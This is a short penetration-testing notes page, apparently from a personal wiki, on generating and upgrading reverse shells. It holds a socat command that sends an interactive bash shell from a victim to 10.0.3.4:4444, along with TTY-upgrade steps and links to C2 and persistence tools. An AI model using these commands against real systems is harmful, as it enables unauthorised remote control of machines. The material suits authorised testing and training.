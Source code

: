 # Generating Initial Revshells
https://revshells.com is an excellent tool for generating a copy/paste shell command for your target machine and method.  See also [[Shellcode]], [[Sliver C2]], [[Meterpreter]] for generating high-quality implants for [[Persistence]] after stabilizing your shell. 

# Shell Upgrades
Reverse shells are great, but they often lack many of the useful features that we typically expect from our shells and TTYs. Upgrading your reverse shell can make it more user-friendly, which makes your post-exploitation quicker and easier. Additionally, upgrading your reverse shell makes it less likely that you'll accidentally kill the reverse shell by hitting "Ctrl-C."

This post is a comprehensive list of the easiest and best ways to upgrade your reverse shell:
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
## SOCAT Full TTY
```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

## Standard NC shell upgrade
```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```
I highly recommend trying out the easier ones, as they'll make post-exploitation easier.

# Payloads
Additional high-quality payloads.
[[Nishang]]
[[Python PTY Shells]]
